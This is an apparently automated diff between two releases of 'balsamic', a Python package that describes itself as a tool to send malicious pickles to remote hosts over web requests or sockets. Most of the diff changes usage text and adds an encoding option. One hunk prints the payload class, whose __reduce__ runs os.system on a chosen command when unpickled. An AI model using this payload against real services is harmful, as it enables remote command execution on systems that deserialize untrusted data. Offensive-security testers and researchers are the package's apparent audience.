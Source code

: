 # Comparing `tmp/balsamic-0.1.95.tar.gz` & `tmp/balsamic-0.1.96.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "balsamic-0.1.95.tar", last modified: Sat May 18 03:01:14 2024, max compression
+gzip compressed data, was "balsamic-0.1.96.tar", last modified: Sat May 18 03:05:06 2024, max compression
```

## Comparing `balsamic-0.1.95.tar` & `balsamic-0.1.96.tar`

### file list

```diff
@@ -1,15 +1,15 @@
-drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:01:14.412780 balsamic-0.1.95/
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2139 2024-05-18 03:01:14.412780 balsamic-0.1.95/PKG-INFO
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1604 2024-05-17 23:29:20.000000 balsamic-0.1.95/README.md
-drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:01:14.412780 balsamic-0.1.95/balsamic/
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-17 19:32:39.000000 balsamic-0.1.95/balsamic/__innit__.py
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2226 2024-05-18 02:50:42.000000 balsamic-0.1.95/balsamic/__main__.py
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1739 2024-05-18 03:00:48.000000 balsamic-0.1.95/balsamic/balsamic.py
-drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:01:14.412780 balsamic-0.1.95/balsamic.egg-info/
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2139 2024-05-18 03:01:14.000000 balsamic-0.1.95/balsamic.egg-info/PKG-INFO
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)      241 2024-05-18 03:01:14.000000 balsamic-0.1.95/balsamic.egg-info/SOURCES.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-18 03:01:14.000000 balsamic-0.1.95/balsamic.egg-info/dependency_links.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 03:01:14.000000 balsamic-0.1.95/balsamic.egg-info/requires.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 03:01:14.000000 balsamic-0.1.95/balsamic.egg-info/top_level.txt
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)       38 2024-05-18 03:01:14.412780 balsamic-0.1.95/setup.cfg
--rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1144 2024-05-18 03:00:57.000000 balsamic-0.1.95/setup.py
+drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:05:06.691889 balsamic-0.1.96/
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2237 2024-05-18 03:05:06.691889 balsamic-0.1.96/PKG-INFO
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1702 2024-05-18 03:04:59.000000 balsamic-0.1.96/README.md
+drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:05:06.691889 balsamic-0.1.96/balsamic/
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-17 19:32:39.000000 balsamic-0.1.96/balsamic/__innit__.py
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2226 2024-05-18 02:50:42.000000 balsamic-0.1.96/balsamic/__main__.py
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1759 2024-05-18 03:03:14.000000 balsamic-0.1.96/balsamic/balsamic.py
+drwxr-xr-x   0 witchdoc  (1000) witchdoc  (1001)        0 2024-05-18 03:05:06.691889 balsamic-0.1.96/balsamic.egg-info/
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     2237 2024-05-18 03:05:06.000000 balsamic-0.1.96/balsamic.egg-info/PKG-INFO
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)      241 2024-05-18 03:05:06.000000 balsamic-0.1.96/balsamic.egg-info/SOURCES.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        1 2024-05-18 03:05:06.000000 balsamic-0.1.96/balsamic.egg-info/dependency_links.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 03:05:06.000000 balsamic-0.1.96/balsamic.egg-info/requires.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)        9 2024-05-18 03:05:06.000000 balsamic-0.1.96/balsamic.egg-info/top_level.txt
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)       38 2024-05-18 03:05:06.691889 balsamic-0.1.96/setup.cfg
+-rw-r--r--   0 witchdoc  (1000) witchdoc  (1001)     1144 2024-05-18 03:03:18.000000 balsamic-0.1.96/setup.py
```

### Comparing `balsamic-0.1.95/PKG-INFO` & `balsamic-0.1.96/PKG-INFO`

 * *Files 4% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: balsamic
-Version: 0.1.95
+Version: 0.1.96
 Summary: Send malicious pickles via requests or sockets
 Author: Witchdoctor (malectrica)
 Keywords: python,hack,pickle,serialization,security,sockets,web
 Classifier: Development Status :: 5 - Production/Stable
 Classifier: Intended Audience :: Developers
 Classifier: Programming Language :: Python :: 3
 Classifier: Operating System :: Unix
@@ -40,27 +40,30 @@
 options:
   -h, --help            show this help message and exit
   -rh RHOST, --rhost RHOST
   -rp RPORT, --rport RPORT
   -P PAYLOAD, --payload PAYLOAD
   -c COMMAND, --command COMMAND
   -s STEPS, --steps STEPS
+  -e ENCODE, --encode Encode
 ```
 socklisten mode
 ```
 usage: balsamic.py socklisten [-h] -lp LPORT -P PAYLOAD [-c COMMAND]
 
 options:
   -h, --help            show this help message and exit
   -lp LPORT, --lport LPORT
   -P PAYLOAD, --payload PAYLOAD
   -c COMMAND, --command COMMAND
+  -s STEPS, --steps STEPS
+  -e ENCODE, --encode Encode
 ```
 
 ## useage (library)
 ```
 from balsamic import balsamic
 balsamic.utility.command="command"
 balsamic.webreq("schema","method","rhost","rport","payload","parameter","cookie")
-balsamic.socksend("ip",port,"payload",steps)
-balsamic.socklisten(port,"payload",steps)
+balsamic.socksend("ip",port,"payload",encode,steps)
+balsamic.socklisten(port,"payload",encode,steps)
 ```
```

### Comparing `balsamic-0.1.95/README.md` & `balsamic-0.1.96/README.md`

 * *Files 18% similar despite different names*

```diff
@@ -25,27 +25,30 @@
 options:
   -h, --help            show this help message and exit
   -rh RHOST, --rhost RHOST
   -rp RPORT, --rport RPORT
   -P PAYLOAD, --payload PAYLOAD
   -c COMMAND, --command COMMAND
   -s STEPS, --steps STEPS
+  -e ENCODE, --encode Encode
 ```
 socklisten mode
 ```
 usage: balsamic.py socklisten [-h] -lp LPORT -P PAYLOAD [-c COMMAND]
 
 options:
   -h, --help            show this help message and exit
   -lp LPORT, --lport LPORT
   -P PAYLOAD, --payload PAYLOAD
   -c COMMAND, --command COMMAND
+  -s STEPS, --steps STEPS
+  -e ENCODE, --encode Encode
 ```
 
 ## useage (library)
 ```
 from balsamic import balsamic
 balsamic.utility.command="command"
 balsamic.webreq("schema","method","rhost","rport","payload","parameter","cookie")
-balsamic.socksend("ip",port,"payload",steps)
-balsamic.socklisten(port,"payload",steps)
+balsamic.socksend("ip",port,"payload",encode,steps)
+balsamic.socklisten(port,"payload",encode,steps)
 ```
```

### Comparing `balsamic-0.1.95/balsamic/__main__.py` & `balsamic-0.1.96/balsamic/__main__.py`

 * *Files identical despite different names*

### Comparing `balsamic-0.1.95/balsamic/balsamic.py` & `balsamic-0.1.96/balsamic/balsamic.py`

 * *Files 2% similar despite different names*

```diff
@@ -9,14 +9,15 @@
 
 	def b64pickle(payload):
 		p=getattr(payloads,payload)
 		p=base64.b64encode(pickle.dumps(p()))
 		return p
 	def plainpickle(payload):
 		p=getattr(payloads,payload)
+		p=pickle.dumps(p)
 		return p
 
 class payloads:
 	class oscmd:
 		def __reduce__(self):
 			import os
 			return (os.system, (utility.command,))
```

### Comparing `balsamic-0.1.95/balsamic.egg-info/PKG-INFO` & `balsamic-0.1.96/balsamic.egg-info/PKG-INFO`

 * *Files 4% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: balsamic
-Version: 0.1.95
+Version: 0.1.96
 Summary: Send malicious pickles via requests or sockets
 Author: Witchdoctor (malectrica)
 Keywords: python,hack,pickle,serialization,security,sockets,web
 Classifier: Development Status :: 5 - Production/Stable
 Classifier: Intended Audience :: Developers
 Classifier: Programming Language :: Python :: 3
 Classifier: Operating System :: Unix
@@ -40,27 +40,30 @@
 options:
   -h, --help            show this help message and exit
   -rh RHOST, --rhost RHOST
   -rp RPORT, --rport RPORT
   -P PAYLOAD, --payload PAYLOAD
   -c COMMAND, --command COMMAND
   -s STEPS, --steps STEPS
+  -e ENCODE, --encode Encode
 ```
 socklisten mode
 ```
 usage: balsamic.py socklisten [-h] -lp LPORT -P PAYLOAD [-c COMMAND]
 
 options:
   -h, --help            show this help message and exit
   -lp LPORT, --lport LPORT
   -P PAYLOAD, --payload PAYLOAD
   -c COMMAND, --command COMMAND
+  -s STEPS, --steps STEPS
+  -e ENCODE, --encode Encode
 ```
 
 ## useage (library)
 ```
 from balsamic import balsamic
 balsamic.utility.command="command"
 balsamic.webreq("schema","method","rhost","rport","payload","parameter","cookie")
-balsamic.socksend("ip",port,"payload",steps)
-balsamic.socklisten(port,"payload",steps)
+balsamic.socksend("ip",port,"payload",encode,steps)
+balsamic.socklisten(port,"payload",encode,steps)
 ```
```

### Comparing `balsamic-0.1.95/setup.py` & `balsamic-0.1.96/setup.py`

 * *Files 10% similar despite different names*

```diff
@@ -3,15 +3,15 @@
 import os
 
 here = os.path.abspath(os.path.dirname(__file__))
 
 with codecs.open(os.path.join(here, "README.md"), encoding="utf-8") as fh:
     long_description = "\n" + fh.read()
 
-VERSION = '0.1.95'
+VERSION = '0.1.96'
 DESCRIPTION = 'Send malicious pickles via requests or sockets'
 LONG_DESCRIPTION = 'A package that allows the user to easily send out malicious pickles, via web requests, or a malicious server or client(currently ipv4 only)'
 
 # Setting up
 setup(
     name="balsamic",
     version=VERSION,
```

